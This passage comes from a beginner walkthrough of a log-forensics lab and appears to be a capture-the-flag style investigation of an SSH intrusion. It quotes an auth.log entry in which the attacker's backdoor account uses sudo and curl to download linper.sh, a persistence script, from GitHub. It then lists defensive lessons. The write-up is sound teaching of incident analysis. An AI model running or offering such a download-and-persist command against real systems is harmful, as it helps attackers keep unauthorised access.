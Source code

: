 **Beginner Explanation**:
- `session closed` = The login session ended
- Session 37 was removed from the system
- The attacker logged out of their first session

---

### 📥 Step 8: Using the Backdoor Account
**Question**: What command did the attacker run using their new privileged account?

**Answer**: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

**What to Look For**:
```
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

**Beginner Explanation**:
- The attacker logged back in using their backdoor account "cyberjunkie"
- `sudo` = Command to run something with administrator privileges
- `curl` = Command to download files from the internet
- They downloaded a script called "linper.sh" (likely a malicious tool)

---

## 🎓 Key Learning Points

### 🔍 What This Investigation Teaches Us:

1. **Log Analysis is Detective Work**: Every action leaves traces in system logs
2. **Brute Force Attacks Leave Obvious Patterns**: Multiple failed attempts from the same IP
3. **Attackers Create Persistence**: They make backdoor accounts to maintain access
4. **Privilege Escalation**: Getting the most powerful account possible (root)
5. **Covering Their Tracks**: Using their own accounts instead of the original compromised one

### 🛡️ Security Lessons:

1. **Monitor Your Logs**: Regular log analysis can catch attacks early
2. **Strong Password Policies**: Prevent brute force success
3. **Account Monitoring**: Watch for new user accounts being created
4. **Principle of Least Privilege**: Not everyone needs root access
5. **Network Monitoring**: Suspicious downloads should trigger alerts

---

## 🔧 Tools and Techniques Used

### For Beginners:
- **Text editors** (like nano, vim) to read log files
- **grep** command to search for specific patterns
- **utmp.py** script to analyze wtmp files
- **Basic Linux commands** for file navigation

